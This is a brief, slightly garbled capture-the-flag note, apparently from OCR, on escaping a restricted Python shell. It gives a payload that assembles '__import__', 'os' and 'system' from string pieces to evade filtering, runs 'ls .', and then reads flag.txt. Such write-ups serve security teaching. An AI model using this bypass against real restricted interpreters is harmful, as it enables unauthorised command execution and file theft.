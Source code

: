 Blocked in a python shell \n Crtl+D and then ```print\(\getattr\(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))``` show the files in the directory.\n Replace ls . par 'cat flag.txt' and ok.